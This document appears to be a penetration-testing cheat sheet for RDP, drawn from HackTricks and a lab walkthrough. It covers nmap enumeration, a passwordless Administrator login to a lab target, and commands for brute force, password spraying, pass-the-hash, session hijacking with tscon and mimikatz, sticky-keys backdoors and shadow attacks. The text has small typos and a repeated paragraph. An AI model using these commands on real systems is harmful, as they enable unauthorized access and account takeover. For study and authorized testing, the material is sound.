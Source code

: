 ```yaml
---
title: 3389 RDP
draft: false
TableOfContents: true
---
```


## Description

source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).


| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |


## Enumeration: 

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

```bash
nmap -Pn -sV -p3389 --script rdp-*  IP
```

Results:
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

One of the most long-standing and major features of Windows is Remote Desktop. To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used.

As mentioned before, we will be using xfreerdp to connect from our Parrot Security virtual machine. You can check if you have xfreerdp installed by typing the command name in the terminal. If the script's help menu is output to the terminal, then you are ready to go. In the following screenshot, we have omitted a large part of the output for space considerations. The help menu for this script is vast, and you can find out much information about the functionality of each switch if you read through it.

If you need to install xfreerdp, you can proceed with the following command: 

sudo apt-get install freerdp2-x11

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

#/v:{target_IP} : Specifies the target IP of the host we would like to connect to.
sfreerdp /v:10.129.1.13

As we can see from the output below, our own username is not accepted for the RDP session login mechanism. We can try a myriad of other default accounts, such as user , admin , Administrator , and so on. In reality, this would be a time-consuming process. However, for the sake of RDP exploration, let us attempt logging in with the Administrator user, as seen from the commands below. We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them. The target, in this case, already does not expect any. Let us take a look at the switches we will need to use with xfreerdp in order to connect to our target in this scenario successfully:

# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:{target_IP} : Specifies the target IP of the host we would like to connect to.
sfreerdp /cert:ignore /u:Administrator /v:10.129.1.13

The output is different this time, and during the initialization of the RDP session, we are asked for a Password. In our case, the Administrator account has not been configured with a password for logging in for the sake of accessibility for the end-user. This is a severe mishap in configuration and will result in us, the attacker, gaining access to the machine without much effort. When prompted to enter the Password like in the output above, we can hit Enter to let the process continue without one. Following this, a large output will be displayed on our terminal before a remote desktop window is loaded. The flag we are looking for is located on the Desktop.

Brute force
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
Be careful, you could lock accounts
Password Spraying
Be careful, you could lock accounts
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
Connect with known credentials/hash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
Check known credentials against RDP services
rdp_check.py from impacket let you check if some credentials are valid for a RDP service:
rdp_check <domain>/<name>:<password>@<IP>
Attacks
Session stealing
With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.
Get openned sessions:
query user
Access to the selected session
tscon <ID> /dest:<SESSIONNAME>
Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.
Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)
Mimikatz
You could also use mimikatz to do this:
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime
You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer
RDP Process Injection
If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

RDP Process Injection
If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:
RDP Sessions Abuse
Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
Shadow Attack
AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn


